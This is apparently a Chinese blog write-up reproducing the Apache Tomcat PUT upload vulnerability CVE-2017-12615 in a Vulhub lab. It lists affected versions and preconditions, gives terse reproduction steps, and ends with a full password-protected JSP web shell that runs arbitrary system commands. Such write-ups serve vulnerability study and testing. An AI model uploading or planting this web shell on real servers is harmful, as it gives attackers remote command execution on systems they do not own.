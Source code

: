 # 原创
：  Apache Tomcat任意文件上传漏洞(CVE-2017-12615)

# Apache Tomcat任意文件上传漏洞(CVE-2017-12615)

## 一、漏洞起源

2017年9月19日，Apache Tomcat官方确认并修复了两个高危漏洞，漏洞CVE编号：CVE-2017-12615和CVE-2017-12616。

其中，远程代码执行漏洞（CVE-2017-12615） 影响的版本有： Apache Tomcat 7.0.0 - 7.0.79（7.0.81修复不完全） 。

当 Tomcat 运行在 Windows 主机上，且启用了 HTTP PUT 请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求向服务器上传包含任意代码的 JSP 文件，并且能被服务器执行。

## 二、基本信息

## 三、漏洞复现

这里使用“Vulhub搭建漏洞测试靶场“。
1. 使用如下命令启动靶场环境。1. 查看ip地址。1. 查看端口信息。1. 进入靶场页面。1. 重新访问此页面来抓取数据包。1. 确认有没有“1.jsp”，访问以下网址返回下面页面可以确认没有。1. 将“Vulhub靶场”内的数据包复制后粘贴替换刚刚抓取到的数据包。1. 此处为刚刚查询的ip以及端口号。1. 放包后再次访问“1.jsp”，发现存在了。1. 如果想要进行攻击，只需将“shell”换成jsp的后门文件即可。
```
如：
&lt;%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%&gt;
     
    &lt;%!public static String excuteCmd(String c) {
     
    StringBuilder line = new StringBuilder();
     
    try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));
     
    String temp = null;while ((temp = buf.readLine()) != null) {
     
    line.append(temp+"\n");}buf.close();} catch (Exception e) {
     
    line.append(e.getMessage());}return line.toString();}%&gt;&lt;%if("023".equals(request.getParameter("pwd"))&amp;&amp;!"".equals(request.getParameter("cmd"))){
     
    out.println("&lt;pre&gt;"+excuteCmd(request.getParameter("cmd"))+"&lt;/pre&gt;");}else{out.println(":-)");}%&gt;
```
